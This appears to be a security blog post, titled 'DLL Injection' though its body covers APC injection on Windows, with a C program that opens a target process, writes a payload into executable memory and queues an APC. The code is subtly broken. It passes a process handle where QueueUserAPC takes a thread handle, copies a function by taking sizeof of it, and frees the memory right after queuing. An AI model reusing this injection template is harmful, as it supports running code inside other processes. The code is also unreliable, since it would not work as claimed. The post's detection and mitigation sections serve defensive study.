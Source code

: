 ```yaml
---
layout: single
title: "Payload Unleashed: DLL Injection"
date: 2024-03-01
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
  - payload-unleashed
---
```

# Understanding Asynchronous Procedure Calls (APC)

[Asynchronous Procedure Calls (APC)](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) are a fundamental mechanism in Windows operating systems, facilitating asynchronous execution of code within a process context. APCs are typically used for tasks like I/O completion, thread execution, and more. However, attackers exploit this mechanism to inject and execute malicious code within legitimate processes.

# How APC Injection Works

APC injection involves the insertion of malicious code into the address space of a target process by queuing a fake APC to be executed at a specific point in the process. This technique enables attackers to execute arbitrary code in the context of a legitimate process, thereby bypassing traditional security mechanisms.

The injection process typically follows these steps:

1. **Process Selection**: The attacker identifies a target process where they intend to inject malicious code.
2. **Memory Allocation**: They allocate memory within the target process to store the malicious payload.
3. **Payload Injection**: The attacker copies their malicious code into the allocated memory space of the target process.
4. **APC Queuing**: A fake APC is queued to the target process, pointing to the address of the malicious code.
5. **Execution**: When the target process enters an alertable state, the queued APC is executed, leading to the execution of the malicious payload.

# Hands-On: APC Injection with C Code Snippet

## Understanding the APC Injection Process

Before delving into the code snippet, let's understand the purpose of each function used in the APC injection process and its significance within the attack:

1.   **[OpenProcess()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)**: This function is used to open a handle to the target process identified by its process ID (`<TARGET_PROCESS_ID>`). By opening the target process, we gain the necessary access rights to perform operations such as memory allocation and writing.
    
2.   **[VirtualAllocEx()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)**: Once the target process is opened, this function is employed to allocate memory within the target process's address space. This allocated memory will be used to store the malicious payload, enabling its execution within the context of the target process.
    
3.   **[WriteProcessMemory()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)**: With memory allocated within the target process, this function is utilized to write the malicious payload (in this case, the `MaliciousCode` function) into the allocated memory space. By writing the payload into the target process's memory, we prepare for its execution within the context of the process.
    
4.   **[QueueUserAPC()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)**: This function is central to the APC injection technique. It queues an Asynchronous Procedure Call (APC) to the target process, specifying the address of the malicious payload to be executed. When the target process enters an alertable state, typically during certain system calls or when waiting for I/O operations, the queued APC is scheduled for execution

5.   **Malicious Payload Execution**: Upon entering an alertable state, the queued APC is executed within the target process. As a result, the address of the malicious payload is invoked, leading to the execution of the malicious code within the context of the legitimate process.

## C Code Snippet

Now, let's dive into the provided C code snippet, which demonstrates the APC injection process:

```c
#include <windows.h>
#include <stdio.h>

// Function pointer for the malicious payload
typedef VOID (*MALICIOUS_PAYLOAD)();

// Malicious payload to be executed
VOID MaliciousCode()
{
    MessageBoxA(NULL, "Malicious payload executed!", "APC Injection", MB_OK | MB_ICONWARNING);
}

int main()
{
    // Open the target process for injection
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PROCESS_ID>); // Replace <TARGET_PROCESS_ID> with the process ID of the target process

    if (hProcess == NULL)
    {
        printf("Failed to open target process. Error code: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory within the target process for the malicious payload
    LPVOID pPayloadAddress = VirtualAllocEx(hProcess, NULL, sizeof(MaliciousCode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (pPayloadAddress == NULL)
    {
        printf("Failed to allocate memory in target process. Error code: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // Write the malicious payload to the allocated memory in the target process
    if (!WriteProcessMemory(hProcess, pPayloadAddress, &MaliciousCode, sizeof(MaliciousCode), NULL))
    {
        printf("Failed to write malicious payload to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Queue the APC to the target process
    if (!QueueUserAPC((PAPCFUNC)pPayloadAddress, hProcess, NULL))
    {
        printf("Failed to queue APC to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    printf("APC injected successfully!\n");

    // Clean up
    VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}
```

This code snippet encapsulates the entire process of APC injection, from opening the target process to executing the malicious payload within its context. 

# Detection challenges

Detecting APC injection presents significant challenges for security solutions due to its stealthy nature. Traditional antivirus software and endpoint detection mechanisms often struggle to identify such attacks due to the following reasons:

1. **Process Context**: Since APCs execute within the context of a legitimate process, distinguishing between legitimate and malicious APCs becomes challenging.
2. **Dynamic Nature**: APC injection involves dynamic memory allocation and code execution, making it harder to detect using static analysis techniques.
3. **Minimal Footprint**: Malicious APCs leave minimal footprint, making them harder to detect compared to traditional injection techniques.

# Mitigation Strategies

While APC injection poses a formidable challenge, there are several mitigation strategies that organizations can employ to bolster their defenses:

1. **Behavioral Analysis**: Implement behavioral analysis techniques to monitor process behavior and detect anomalous activity indicative of APC injection.
2. **Code Signing**: Enforce code signing policies to ensure that only trusted code can be executed within processes, thereby preventing the execution of unsigned or malicious code.
3. **Memory Protection**: Employ memory protection mechanisms such as Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR) to mitigate the impact of memory-based attacks.
4. **API Monitoring**: Monitor system APIs for suspicious activity related to APC manipulation and injection.

# Conclusion

In this post, we've explored the Asynchronous Procedure Calls (APC) injection. APC injection involves inserting malicious code into the address space of legitimate processes, leveraging the Windows operating system's mechanism for asynchronous code execution. 

Through a hands-on demonstration with a C code snippet, we've showcased the practical implementation of APC injection. Explore more in the "Unraveling the Malware Mysteries" series at [Unraveling the Malware Mysteries](https://noelit911.github.io/Unraveling-the-Malware-Mysteries/).